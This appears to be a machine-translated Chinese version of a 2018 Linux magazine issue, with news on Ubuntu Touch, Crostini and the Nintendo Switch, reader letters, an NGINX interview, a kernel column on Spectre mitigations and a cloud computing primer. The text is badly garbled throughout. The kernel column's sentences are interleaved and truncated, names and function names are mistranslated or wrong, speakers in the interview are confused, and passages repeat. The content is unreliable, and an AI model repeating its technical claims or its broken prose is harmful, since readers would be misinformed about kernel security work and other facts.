# Linux 用户与开发者 192 - 云计算大师 192

面对工作、家庭和学校的众多需求，你的一天似乎永远不够用。为什么不要偶尔按下暂停键，捧着你最喜欢的杂志，为你的一天开辟一片属于自己的“绿洲”呢？


## 按暂停

享受杂志时光

欲了解更多关于 Press Pause，请访问：

pauseyourday.co.uk

## 贡献者

Joey Beards, Christian Cowan, John Goemans, Tom Cantelli, Steve Mason, Manu, O'Brian, Tani Ham, Mark Pickance, Calvin Robson, Maya Sharma, Alex Smith

制作经理 Nigel Koley

>> 掌握云，
>> 初创企业的 Nextcloud，p64
>> 密码管理器，p81

欢迎阅读英国和北美最爱的 Linux 和开源杂志。

你可能注意到本期是以“云”为主题的。我们在哥本哈根参加了有成千上万工程师和开发者参加的 Kubernetes+CloudCon。技术的发展既令人印象深刻又令人叹为观止。转到第 32 页了解令人兴奋的内容。

联系团队：

编辑 Chris Thornett

linux@future.com

Twitter: @linuxuserm

Facebook: facebook/LinuxUser

支持邮箱：filesupport@future.com

更多详情见第 30 页


Future plc 是 Future Ltd 的出版物，伦敦 Street House, London

首席执行官 Penny Leslie

财务官 Elizabeth Smyth-Thorne

电话 +44 (0)1204 825000

www.linuxuser.co.uk

3





Ubuntu Touch 正由 Purism 复兴

考虑部署云服务吗？有很多需要考虑的。让我们解释一下选项——从私有的到中间的以及主要参与者能提供什么。

本期我们解释如何在版本控制应用中使用分支。

建议、含义和趣事。

让你的咖啡机 Arduino 升到新的高度。

无处不在的 NGINX 创建者谈其未来。

- **44 安全：Metasploit shellcode**

将你的 shellcode 与 Metasploit 框架集成。

- **16 内核专栏**

- **58 无法计算**

使用这些技巧让你的 Jupyter Notebook 表现更好。

来自 KubeCon 的所有新闻。

随着 Nextcloud 13 的发布，Neil Bothwick 探讨了你如何为业务部署它。

这种类似 Java 的语言正在流行。发现其原因。

第 192 期

2018年6月

facebook.com/LinuxUserUK

Twitter: @linuxuserm


72 “全息”音频可视化器

发现 Aaron Tainter 和 Davis Lau 如何使用 Pi、显示器和一些巧妙的工程创建了他们自己的伪全息音乐可视化器——你可以亲手构建这个项目。

74 让树莓派睡眠

使用低功耗、低成本的 8 位控制器在特定时间后自动让 Pi 睡眠。

Pi 团队测试了 Maker Life 的气象站套装。学校 IT 主监 Calvin Harrison 和他的学生记录了组装和编写代码使其运行的过程。

这四个工具都承诺结束密码痛苦，但哪一个表现得最从容？

ASUS GLAN 1200 三合星套装提供了具有扩展范围的前线网络。它达标了吗？

四年后，这个受自由软件基金会青睐的发行版经过了测试。

我们试用了 Elisa 0.1、Universal Media Server 7.0.1、BorgBackup 1.0.12 和 GitRass 08.10。

96 区块链忧郁

科幻作家 Stephen Oram 的另一篇引人入胜的短篇。



立即订阅即可获得免费蓝牙音箱！

更多信息请见第 30 页

06 新闻与观点 | 10 字母 | 12 采访 | 16 内核专栏

## UBUNTU

### Purism 与 UBports 的合作复活了 Ubuntu Touch

据披露，Purism 即将推出的 Librem 5 手机除了 PureOS 外，还将运行 Ubuntu Touch。该设备作为近年来最受期待的新移动设备，将提供三个操作系统选项：PureOS、带有 KDE Mobile 的 PureOS，以及现在的 Ubuntu Touch。

Ubuntu Touch 是 Ubuntu 桌面版的移动版本。自从 Canonical 放弃其 Ubuntu 桌面版的移动版本后，Ubuntu Touch 由 UBports（一个 Canonical 的自由社区项目）进行维护和更新。遗憾的是，支持的设备一直限于少数手机，


例如 Nexus 5 (Hammerhead)、OnePlus One 和魅族 5 Pro。要实现从手机到桌面的环境“融合”（convergence），需要一个新的、现代化的平台，而 Librem 5 正致力于实现这一目标。

开发进展包括对硬件安全的改进，这表明 Purism 无疑已经加入。作为 Purism，UBports 社区由那些致力于为人们提供隐私性和易用性，同时扩大我们用户基础的人所驱动。与 Purism 合作将使我们首次能够为获得良好支持的商业设备推进 UBports。Librem 5 将是首个运行 Ubuntu Touch 的设备，特别是因为它不需要 Android 系统。

同时，UBports 的副手表示：“Ubuntu Touch 的开发目标是成为一个用于移动探索的非 Android 操作系统。移动的未来在于远离 Android，而带有 Ubuntu Touch 的 Librem 5 为这一愿景提供了完美的平台。”

Todd Weaver 补充道：“Ubuntu Touch 摆脱 Android 并统一用户为我们带来了更广泛的受众。当我们开发对 Android OS 的支持时，为用户提供一个受 Purism 支持的替代方案将有助于人们提升数字权利。”

在一份联合声明中，UBports 董事会主席 Marius Gripsgard 表示，“让 Ubuntu Touch 在像 Librem 5 这样的手机上默认运行是实现其他目标的理想方法”

发布后，Librem 5 将是市面上最安全的手机。

Librem 5 预计于 2019 年 1 月发布。


（每日平均访问量，截至 2018 年 5 月 4 日的前 30 天）

| 排名 | 发行版 | 访问量 |
| --- | --- | --- |
| 1 | Manjaro | 3534 |
| 2 | Mint | 2811 |
| 3 | Ubuntu | 2302 |
| 4 | elementary | 1453 |
| 5 | Debian | 1209 |
| 6 | Solus | 1136 |
| 7 | MX Linux | 1088 |
| 8 | Fedora | 1087 |
| 9 | openSUSE | 659 |

### Crostini 为 Chromebook 带来 Linux 应用

### ARM 架构 Linux 登陆 Google Pixel，并检测到其他设备

随着一项新功能，在 Chrome OS 上运行应用正变得更加容易。今年，Crostini 再次满足了用户需求，因为 Google 的 Linux 版本、以云为中心的操作系统被推给了更多人。不仅想在 Chrome OS 上运行应用的用户需要开源软件 Chromium；Google 一直在推向其所属操作系统的边界。

对于渴望更多功能的用户来说，这还不够。开源工具 Crostini 能够运行 Linux 桌面，这帮助将 Linux 应用带到了 Chromebook 上，但它存在 Bug，且支持断断续续的。

然而，窥探 Chrome 源码可能会揭示 Crostini 功能的功能。如果 Crostini 能够“在 Chromebook 上运行 Linux 应用和 IDE”，它是通过管理虚拟机来实现的。

首先是 Chrome Apps，这些应用程序运行就像原生的一样。对于许多人来说，这足够了……但没有人能忍受 Android 持续太久。2016 年，在 Chrome OS 上实验 Android（至少是部分）一段时间后，通过 ARC 工具，Google Play 商店被引入到了兼容的 Chromebook 设备。遗憾的是，很少有 Android 应用是为台式电脑或笔记本电脑设计的，导致在许多情况下出现兼容性和可用性问题。

Chromebook 开发者可能已经根据需要使用了 Terminal（终端）应用。然而，如果你没有使用 Pixelbook，可以访问 Reddit 上的 r/Crostini 获取更多信息，以及如何开始启用 Crostini 并运行 Linux 应用。

- 稳定版 (25)

意乎不乎，这是 18.04 LTS 的发布月份，这款热门发行版的各种口味版本处于核心位置。

紧随标准版发布的脚步，Ubuntu Studio 包含了一组用于音频、视频和图形媒体创作的开源应用。

过渡到 GTK+ 3.22，Ubuntu MATE 18.04 接收到了改进的触摸手势支持、针对视障用户的辅助功能支持以及 HDMI 支持。

这是 Budgie 的第一个 LTS 版本。它具有新的 Budgie 应用、新的 GTK+ 主题面板以及修复。

最新的发行版可用：

```
files.ubuntu.com
```

### 复古模拟被预热，作为热门主机公开

在 Nintendo Switch 主机被破解以运行 Linux（见新闻 #0190）后，来自 GBATemp 论坛的黑客分享了一张 Switch 运行 Ubuntu 18.04 的照片。

细节由 failoverflow 分享，他最初创建了该漏洞，但 Shifel2 表示，“这是 Tegra X1 处理器 ROM 中的一个漏洞，它允许通过基于 USB 的模式对设备进行初始刷机”。该漏洞允许加载未签名的软件，结果可以在 failoverflow.com 获取。

硬件的灵活性是 Nintendo 考虑的关键因素。为了防止复制，Nintendo 之前的三个版本（和主机），这种硬件支持的漏洞似乎适用于每个 Switch。


> 你会在你新的 Nintendo Switch 上安装 Ubuntu 18.04 吗？

在 Nintendo Switch 上安装 Ubuntu 并不简单，而且它现在无法以高效的方式运行。正如 GBATemp 用户所说的，“骨架太简陋了。没有 Wi-Fi（尽管这似乎已经是个问题了），没有硬件加速。没有蓝牙。但潜力在于开发，不仅是为了模拟平台，还可以将 Nintendo Switch 作为平板电脑使用。然而，Nintendo 将在未来的 Switch 版本中修改硬件以解决这个问题，竞争正在进行。”

### 现在的微软更像 Linux

在 Linux 衰落十年后，过去几年，红帽支持的已成为开源计算巨头。虽然 Windows 核心 Linux 内核不太可能，但微软对 Linux 的支持（包括 Windows Subsystem for Linux 和 Linux 基金会以及为树莓派发布 Windows 10 IoT Core）表明它承认了 Linux 在现代计算中的重要性。

在 4 月 16 日宣布了这一消息，尽管可能是晚的愚人节玩笑，总裁 Brad 透露“在 43 年后，这是’

## 读者来信与开源

关于杂志、Linux 的问题与意见

### 在西方闻名

亲爱的 LU&D：说实话，过去一年来，我一直从当地书店（美国科罗拉多州）购买 LU&D 杂志，我认为自己是一个新手级 Linux 用户——主要是因为我对 Linux 有不同的看法，这种观点是从 Windows 出现之初就开始想象的。

我几年前开始接触计算机，是为了记住一些程序（以及，它们是如何从磁带驱动器存储中出来的），在 BASIC 上写过一点简单的程序，并实际上尝试过计算机早期的一些东西。我了解的知识没有你们现在这么丰富。如果我以后能让 Linux 原生运行《魔兽世界》（真的，任何发行版都行！），我会抛弃 Windows。

最近我将一台 HP 1610 客户端转换成了可搜索的 Ubuntu 机器，虽然实际上没什么用处，但我从你们的杂志中获得了一些好主意。在这次转换过程中，我比预想的更深入地了解 EFI 和 UEFI 启动，因为安装在内部闪存驱动或我一年前装上的 2.5 英寸 SATA HDD 上。我不认为我会有机会尝试那个，但如果我在的话，阅读你们的杂志带给我比其他时候更多的信心。

我承认，你们发表的大部分内容都超出了我的能力范围（包括 CLI 相关内容），但我正在学习，并坚持每个月去一次书店寻找你们的优秀佳作，并知道你们在英国以外的更多地方也受到推崇。

David Helmer

Chris：我记得我也做过类似你的事情。在我的例子中，是在 Amstrad CPC-464（绿屏）上的 BASIC 命令组，我们还靠此赚了钱。很高兴你改进了你的，或者说是 cogones 的。你们的终端设备（terminal ends）并不难学。特别是安装应用程序，如果有缺失的依赖项，使用 `apt-get` 可以非常简单。（这些是某些软件所需的软件包，如果系统中还没有，它们需要单独安装。它们也会被其他软件使用。）由于有了像 snap 和 flatpak 这种会将依赖项打包在内部的机制，感觉简直像是一片混乱。

在 Linux 数据库上快速查看《魔兽世界》，它给出了高分，有支持是好的，也许你可能愿意承担尝试让它运行的麻烦，但当 Valve 和许多其他已经成功将游戏迁移过来时，这确实是一个遗憾的现状。我们只能希望 Valve 能开启 Linux 平台游戏的新时代。关于 EFI 和 UEFI，也许我们该时候写篇说明来解释它们是什么并解决常见问题了？大家怎么看？

#### 本期获奖者：David Helmer

分享你的知识、建议或吐槽，如果你愿意的话，请将信件发送至 editor@istorage.com。我们有一个 16GB 的 istorage USB Pro 0.3 闪存盘，仅需 8 英镑！除了 XTS-AES 256 位加密外，该驱动器带有一个可充电电池，使你能够在连接到 USB 接口之前无需键盘即可安全锁定驱动器。如果验证失败，数据将被永久删除。查看此处 istorage-uk。

收到这本杂志的订阅我非常兴奋！我想对可能感兴趣的内容做几点笔记。我认为我开发了一个可以在所有 Linux 发行版运行的新软件系统。我认为这个软件可以移植到所有的 Linux（只要该发行版支持所有内容）。

我想知道，对于 CD，你们会如何分发？我想制作一个多启动安装程序，与我现有的 Ubuntu MATE 以及现在 USB 驱动器上的 MX7 一起使用。我不知道如何设置它。

Daniel Huxley

Chris：感谢分享你正在做的工作，Daniel。听人们在 Linux 世界里做的事情很有趣，尽管我想我们是否需要比目前有的更简单的安装方法。也许我们应该考虑参与 AppImage、Flatpak 或 Snap 项目，而不是？

回答你关于 DVD 的问题，Best Bootrich 确认了我们的选择。我们对它使用 GRUB2。GRUB 的优势是还可以自动处理混合系统。

你正在使用 MX Linux 17 也是很好的。这也是我们选择将其录入光盘的原因之一。我们从最近的读者调查中知道 Ubuntu 是我们读者的首选发行版，其次是 Debian，但我们认为突出那些具有独特特征的即将推出的发行版是非常重要的。

关于：它可能没有 Ubuntu 的粉丝，但我们喜欢在光盘上突出像 MX Linux 17 这样有趣的 Linux 发行版

把另一个拉出来吧，它一直在上面了！新的桌面 XP 得了 10 分！它难道没有坏吗？为什么还有人增加新功能并为“稳健”的 Linux 系统用户收取高价？他们为此付了多少钱？我爱这本杂志，你们表现得像冠军一样！

John Hell

左边，不，我们没有因为 debit XP 得 10 分而得到厚厚的信封，13 9370。这是什么，1975 年？他们赚钱了吗？（开玩笑的！）

## NGINX：方向转变

作为大多数网站的反向代理，“线上的路障”有着宏大的野心。我们在 Kubernetes + CloudNativeCon 访谈了 NGINX 关于其愿景


# NGINX：开源界的家喻户晓

NGINX 是开源界的家喻户晓。它在 13 年前作为服务器首次发布，也可以用作反向代理、负载均衡和 HTTP 缓存。对于 NGINX 的产品负责人 Owen Garrett，他在软件工程领域拥有 15 年经验，并希望领导云网络业务，因此我们问了行业发生了什么变化，以及 NGINX 有什么方案。

SSL 解密和身份验证，使得你的 Web 服务器、Web 应用程序不需要做这些。我们正在讨论这些复杂性，而且它们同样适用于 Kubernetes。

如果我们退一步，NGINX 真正允许你做的是向用户隐藏 Web 服务器的基础。网站是为应用程序设计的。他们看不到平台或架构。他们所做的就是连接到 NGINX，我们将流量路由到正确的内部。

Owen Garrett：在 NGINX，我们处于网络空间、服务网格空间、路由空间，并且在应用空间周围有一些新项目。我们负责落其中的部分

## 单元：说我的语言

Unit 于 4 月发布，是 NGINX 新项目中的第一个。是一个非常轻量级的应用程序服务器，可以使用多种语言运行代码，同时通过 API 进行管理。这意味着，Gareth，你可以快速地更改配置。

Unit 的理念源于微服务，公司正在重构其应用程序，并将其拆分为可以在容器中运行的小型组件。Gareth 补充道，微服务允许更快速的扩展和并行开发；它让开发者能够为他们解决的每个问题使用最佳原生工具。你不需要在任何地方都使用相同的应用程序栈。例如，他们可能正在构建 Web 前端，而 PHP 是这方面的最佳语言；他们可能正在构建数据库，那么 Go 集成 Python 模块是最好的。因此某些部分可以用 Python 编写，另一个处理部分也可能是其他语言。

微服务鼓励开发者针对当前的问题使用他们想要的语言。这对于开发者（也就是我们）来说是一个巨大的优势。

就像新兴的云原生技术一样，NGINX Unit 的最初愿景是让运行代码（在此情况下是应用程序代码）变得更容易，并抽象化关于其实可行性的问题。正如提到的：

> “当我们采用这些应用程序组件并将其放入应用程序栈中时，你会有 17 种不同的语言。你必须弄清楚如何处理它们。如何管理它们？”

NGINX Unit 的第一个版本是一个可以运行多种不同语言的服务器，Gareth 说它已经实现了这一目标。“我们可以运行 PHP、Python、Ruby、Go 和 Perl，并与它们进行集成。”一旦你部署代码并这样使用，同时使用 NGINX 的 API 部署代码，你将拥有相同的运行时、栈、API 和监控，这降低了操作的复杂性。

啊，是的，Kubernetes 正在变成一种商品，它们现在是运行容器的默认平台。它是一种随处可见的商品，如 AWS、Azure、Google 等。它的工作方式是这样的。这正是它成为商品的原因，它无处不在，对于大多数地方都是如此，而不只是我们。它周围有一个庞大的生态系统。NGINX 是该生态系统的一部分，我们处理一些网络流量管理、高可见性和扩展。还有其他工具可以涵盖这些领域，它们并没有填补 Kubernetes 的空白，而是在上方叠加了额外的服务。例如监控和安全。每个领域都有相应的生态系统——备份、集成、CI/CD、捐赠。如果你见过我们的云原生版图——那是他们的擅长。

是的，这非常迷人。这也揭示了他们现在的产品现状，尽管 NGINX 已经有三年的历史了？

是的，大约有三年的了，他们已经在上面产大约 200 个产品。如果你是一个年轻的开发者，并且准备使用 Kubernetes，决定使用哪种代码栈是非常困难的。

企业拥有规模。他们正在从传统的层架构（基于 Java 的应用程序）转向这里。或者经典的三层、可能是基于 Ruby 的应用程序。他们意识到他们能够更快速地转换这些应用程序，更快速地应用更改；从网上获得的所有倡议都是关于：“我需要新功能。我需要一个新服务来支持新客户。我明天就要完成。”

一周后：“额……”

他们意识到传统的栈不支持这种开发速度。CNCF 在汇聚那些有助于支持该点的技术方面做得非常好。你需要深入其中。

有四项关键的核心技术：

- DevOps，一种运行你时间的文化方式。
- Kubernetes，一种在就现场的操作方式。
- 容器，用于打包和交付的技术。
- 微服务，一种人们正在处理的架构，允许他们独立扩展应用程序。

这四项定义了现代构建应用程序的方式，而这种方式创造了巨大的复杂性爆炸。你不能像我们能够的那样依靠单一供应商。拥有 CNCF 版图，并可以从中挑选和组合。

我们的角色是尝试解决该版图中我们认为——我们知道——我们可以解决的特定领域。

我们的推销点是：接触并了解 NGINX。NGINX 不仅仅是我认为的东西，而是一个每个人都知道的人。这不像任何一个组织是不受信任的。它非常轻量级。

我们对你说什么？NGINX 不仅仅是你使用的一个包。NGINX 是一个非常优秀的 NGINX，它有一家业务研究并开发你所使用的 NGINX 开源软件。其商业版本是由 NGINX 构建的 NGINX Plus 业务驱动的。

所以第一步是：让你知道我们有很多可以做的事情：因为 NGINX 绝对是我们用于连接的工具。如果你需要连接网络，NGINX 是此事的完美选择。我们有应用程序防火墙，所以你可以安装并清理流量。我们可以运行负载均衡和重定向，所以你可以使用 NGINX 更改你的应用程序架构。我们有 API 控制器，而且我们还有一些计划中的项目，对于这里的与会者来说可能令人兴奋。

如果你处于使用 NGINX 实例的位置，可以通过购买 NGINX Plus 来支持开源项目，并获得一系列企业级功能。

NGINX，这个你熟悉并欣赏的开源项目，由一家销售软件和支持的商业公司提供资金支持。额外的功能保留在 NGINX Plus 的伞下。这是一个比社区版更强大的软件负载均衡器、Web 服务器和内容分发。这包括会话持久化、通过 API 配置 NGINX 的能力以及主动健康检查。

“我们有更有规律的发布节奏，”Garrett 说道，“我们在 Kubecon 惊讶地发现，很少人知道 NGINX Plus 已经存在。如果你在开源项目或产品中使用 NGINX，公司可以为你提供每个不同版本的测试。不仅如此，NGINX 在商业端未完成的 80% 的工作都回到了开源社区。”

为我们工作的人间接地支持着社区版。这是因为我们与社区建立了业务关系，我们将创新带到社区版中，并创建了像 gRPC 协议这样的东西。这是一种可以直接调用服务器应用程序或本地代理上方法的远程协议。

所以这有一种协同效应。社区版将从其他用户在社区产品方面所做的贡献中受益。然后我们是新产品。我们有一个正在开发的新应用程序服务器产品，称为 NGINX Unit，以及一个新的控制面产品，称为 NGINX Controller。如果你将这些产品组合在一起——NGINX 反向代理、NGINX Unit（应用），然后是控制面 NGINX Controller——我们的愿景是这将创建一个单一的集成平台，允许你部署和运行所有其他应用程序。这是一个非常令人兴奋的愿景。这在发布方面方面是一条出路，我们必须构建底层技术来实现它。这就是我们梦想的。

那么第二个挑战随之而来：你如何将所有这些微服务连接在一起？你一定听过像 Istio 这样的项目。它非常流行，因为它承诺解决一个非常重要的问题，即：管理成百上千个的微服务。当我把它们放在 Kubernetes 中时，这个微服务如何与另一个微服务通信？它如何发现其他微服务？

观点是，我们随着向微服务的迁移获得了更多东西。企业和个人开发者面临的挑战——使用 Kubernetes 等平台的挑战——在于它们变化得太频繁了。关键在于我们如何使用我们拥有的技术来解决这些挑战

# Linux 内核社区最新动态

Jon Masters 总结了 Linux 内核社区的最新动态。Linux 4.17-rc5 已发布，4.18 的合并迫在眉睫。


Linus Torvalds 宣布了 Linux 内核版本 (RC) 4.17-rc5，该版本“看起来继续相当正常”。这意味着在 4.17 进入“GA”（正式发布版）之前，我们将按照更符合常规的内核发布周期进行工作。在这一阶段，大多数剩余的更改是针对微小的驱动程序问题和 Bug 的修复，但还没有阻碍进展的因素。如果情况确实如此，4.18 的开发窗口将准时开启，以实现全面覆盖。

... 用此突出显示需要更改的操作。Dan 的工作略有不同。在这种情况下，他正在教 Smatch 工具如何缓解幽态 1（Spectre 1）“getget”（gadgets）。这些是现有代码片段，可能会被利用将敏感内核数据泄露给不可信的用户。

## Jon Masters

Jon 是一位内核黑客，从事 Linux 领域已 22 年。他在 13 岁时首次进入大学。Linux 居住在马萨诸塞州剑桥。他为一家企业 Linux 供应商工作，并推动能效 ARM 架构服务器标准的制定。

Spectre 是安全漏洞中的半部分，硬件仍在努力通过软件缓解措施来完全消除它。Spectre 更难利用，但也更难修复，因为它由两个部分组成。第二部分有趣得多，因为它会对某些系统的性能产生重大影响。它涉及 CPU 分支预测，以及为分支预测器间接性引入新的微架构栅（fences）。

Linus 之前提到过 Linux 5.0 内核，但随着 4.17-rc1 的发布，内核的 git 历史达到了“西格玛标记”。Git 是一种软件配置管理系统，或源码控制系统，由 Linus Torvalds 创建（见第 006 页）。它最初是 Linus 本人由于现有工具感到沮丧而编写的，当然它也适用于 GitHub.com 等各种不相关项目的开发。

gadget 是一个项目成为“对象”的更改，即一个更改代码的提交（commit）。这是纯粹的“数字游戏”，且仅此而已，但为了排序

Spectre 1 涉及分支 gadget。当内核代码（例如）获取了攻击者提供的值并在条件检查中使用该值时，就会发生一次绕过（bypass）。当 CPU 使用推测执行时，它们可能会尝试执行该分支之后的后续代码。如果预测成功，用户提供的（恶意）数据就会被引入缓存中。但有一种机制是

多年来，“无意义”的对象多于好几个。尽管如此，Linus 4.0 恰好达到了两个对象的关口，而 Linux 4.10 达到了四个对象的关口。在 Linus 的这种状态下，他可能无法像他所希望的那样立即合并 4.0 内核。但它会发生的。你一直

通过这些代码包含某些操作序列（称为 gadget），这些数据被加载到 CPU 缓存中。如果发生这种情况，稍后就可以进行内存操作并以及

Dan Carpenter (Oracle) 启动了一个名为“Spectre 检查”的线程，这是他为“Smatch”工具编写的一系列新补丁。Smatch 是一种分析工具，它可以扫描源代码（以内核为例），寻找符合某些规则的模式或代码行为。通常，这是

Dan 为整个内核中的此 Spectre 1 gadget 编写的补丁。通常，它们在选择一个值以检查其是否在数组范围内时发生。当检测到代码序列时，建议的操作是使用最近添加的 `array_index_object()` 检查，这将防止推测进入

由 CPU。针对这个初草案进行了一场非常好的后续讨论，Smatch 是一个很棒工具，Dan 做了很好的工作，希望很快就能发布。如果你在 http://repo.or/smatch/git/blob/HEAD/spectre.c 审计你自己的内核，Jones 发布了名为“针对 32 位 x86 类系统的页表隔离”的补丁系列的第 5 版本。作为复习，页表隔离（PTI）用于通过在页表级分离用户空间内核虚拟内存来缓解熔融攻击（Meltdown）漏洞。这意味着在运行用户应用程序时没有有效的 TLB（转换旁路缓冲区）条目。这意味着当内核数据缓存在 CPU 缓存中（受熔融攻击影响）时，没有办法访问该数据。性能损失超过了一个倍数——这需要巨大的更改。PTI 的初始工作完全专注于 64 位系统，这遗漏了使其现实使用场景化的绝大多数漏洞，尽管某些用户即使在现代硬件上仍运行 32 位内核上，

输出以查看电池耗电在哪里，并缩小了两个可能部分归咎的问题。第一个是缺少完全的 PLTR（延迟容忍报告），这使得 PLTR 设备的能力——在这些补丁中被启用——可以稍后添加。第二个也是更大的问题，是运行时 PM（电源管理）的激进默认行为，该行为被设置为禁用内置设备。似乎有一个共识，这种策略在未来的内核发布中可以更激进一些。

# 云自动化

公有云基础设施的管理首先通过网络界面进行，但许多提供商也提供命令行和基于 API 的控制。

公有云代表了一种快速、简单且具有效益的部署服务器技术的方式。

必须在自己的基础设施上运行部署服务器的时代已一去不复了。云市场正在增长。对于最大的参与者来说，AWS（亚马逊云服务）云业务利润非常丰厚的——AWS 以惊人的规模提供了按需服务。

## 免费创建公有云

在公有云领域，有几家关键参与者在相互竞争。由于他们都试图将组织引入自己的平台，显而易见，这种竞争的最好方式就是提供“免费”——不收取费用的基础服务级别，或免费层级。可以在不输入任何支付详情的情况下，使用包括 Amazon AWS、Microsoft Azure、Google Cloud Platform、DigitalOcean 等在内的所有提供商的公有云环境。

AWS 的增长率为 9%，似乎正在追赶市场领导者。尽管微软在技术术语方面显得很新，但它被认为是成熟的——全球大量企业对系统的依赖证明了它是业务的核心。

公有云是如何工作的？服务通常使用基于网络的界面进行配置或管理（尽管有方法可以实现自动化）。云提供商通过网络系统提供全套服务。例如，AWS 提供了 100 多种产品，涵盖计算、存储、数据库、迁移、网络、开发、管理、安全、信任与智能、机器学习等。

你按需要使用（并因此付费）——你可以慷慨地启用服务，这也让你的云使用之旅的起点变得容易得多。

虽然公有云是通过单一界面管理的（该界面实际上非常易用），但基础设施分布在各地以提供可靠性。各种概念可能会发挥作用。第一个是“可用区”（availability zones）——尽管没有标准，但请注意其他产品所使用的术语略有不同，但概念是相同的。可用区代表了一种……

使用云提供商的优势之一是你只按需使用（并因此付费）。

> 使用云提供商的优势之一是你只按需使用（并因此付费）。

| AWS 服务 | 最近使用过的 |
| :--- | :--- |
| Amazon (EC2) | S3 |
| CloudFront | 所有服务 |
| Compute | EC2 |
| Elastic Beanstalk | Fargate |
| Lambda | Elastic Beanstalk |
| Storage | S3 |
| EBS | Glacier |
| Database | RDS |
| Redshift | DynamoDB |
| Networking | VPC |
| Route 53 | Direct Connect |
| Management Tools | CloudWatch |
| CloudFormation | Cloud Config |
| Security and Identity Management | IAM |
| KMS | Application Integration |
| Mobile Hub | SNS / SQS |
| Analytics | Support |
| Customer Support | |

| 创建账户 | AWS 提供免费层级，让你可以在 12 个月内测试和使用某些服务。 |
| 探索 AWS | AWS 为你管理基础设施，但你仍然需要管理自己的数据。了解更多。 |
| 开始使用 AWS | AWS EC2 免费实例在 12 个月内是免费。 |



在上述云提供商之上，我们使用公有云，使用大量服务进行管理


尽可能靠近你的用户，以最大化性能。为了帮助这一点，许多云提供商正在对“边缘计算”进行大量投资——它将处理带到网络边缘，通过 CDN（内容分发网络）在靠近用户的地方计算，从而快速交付。

在自己的自己的数据中心部署应用程序意味着部署一个带有操作系统、一些存储和数据库的一个或多个服务器——但公有云的等效物是什么？假设你需要在服务器上运行自己的代码（这并不总是如此），你从实例（AWS, droplet, DigitalOcean, Azure）开始，你可以看到非标准的术语可能会令人困惑！在最基本的形式下，你创建的服务器是云提供商处的一个 VM。从意义上说，它感觉像一台普通的服务器，但具有远程管理和配置的额外选项。

> 就像服务器被虚拟化一样，存储也是如此——没有任何机器具有物理磁盘

在部署到你自己的数据中心时，重要的是先研究所需的服务器大小，购买一个，或者希望你有足够的容量并安装它。在公有云中，这来自提供商。提供商提供了广泛的选择，并且它们之间的切换是快速且方便的。就像服务器被虚拟化一样，存储也是如此。与其使用物理磁盘，你可以选择一种存储类型，例如通用 SSD 或预留 IOPS SSD，指定大小并将其附加到你的实例。在云中，磁盘是可以扩展的（不涉及操作系统或内存）。如果你需要更多 CPU，稍后你可以将你的实例调整为不同的大小。需要更多存储？扩展磁盘，零停机时间。

当然，拥有服务器只是体验的一小部分——你离不开操作系统。但云提供商通过提供预先构建的镜像简化了这一点，这些镜像可以在创建实例时应用到实例上。在 DigitalOcean 中，你可以找到不同版本的 Ubuntu、CentOS、Debian 的示例，或者五个版本的 Debian 或三个版本的 CentOS。亚马逊还……

## Microsoft Azure

今天创建你的 Azure 免费账户

使用 Azure 开启你下一个伟大的想法

免费注册

或登录


上述 Microsoft 的 Azure 云额度可以让你免费获取，即使你正在部署 Linux


全球化意味着云提供商可以具有韧性，无论你的用户位于何处

## IaaS、PaaS 和 SaaS


# 云计算基础与部署策略

## 云服务模型

**“基础设施即服务”（IaaS）** 是位于底层的服务器、存储和网络。

**“平台即服务”（PaaS）** 避免了管理底层基础设施的复杂性。

**“软件即服务”（SaaS）** 直接交付应用程序。

## 云存储与数据库

现在你的系统已经运行，你可能需要一个数据库。在传统环境中，这意味着启动一个额外的实例。这在云中仍然是一个选项，使用 IaaS（如简单存储服务），并且机器很容易部署。

> 使用云提供商的优势之一是你只按需使用（并因此付费）

就像服务器被虚拟化一样，存储也是如此——没有任何机器具有物理磁盘。

> 就像服务器被虚拟化一样，存储也是如此——没有任何机器具有物理磁盘。

传统的文件系统仍然有效，但云计算引入了一个额外的概念称为“对象存储”（自动分布在多个 AZ 和区域中），加密且灵活，并具有自动版本控制，使管理变得毫不费力。

文件系统仍然有效，但云计算引入了一个额外的概念称为“对象存储”（自动分布在多个 AZ 和区域中），加密且灵活，并具有自动版本控制，使管理变得毫不费力。

## 云的核心优势：可扩展性与成本效益

以及运行在您自有本地场所的基础设施。其核心优势是可扩展性。你刚刚为 Ubuntu 配置的那个服务器和你的应用程序？如果它过载，云提供的负载均衡和自动伸缩可以实时启动新实例，并在空闲时将其关闭。使用数据库很棘手吗？不，它可以根据需要进行扩展，让你具备按需伸缩的能力。这意味着它是具有成本效益的——你不需要让整台服务器日夜无休闲置，而且在高峰期间，它可以被自动替换且无中断。

## 安全与合规

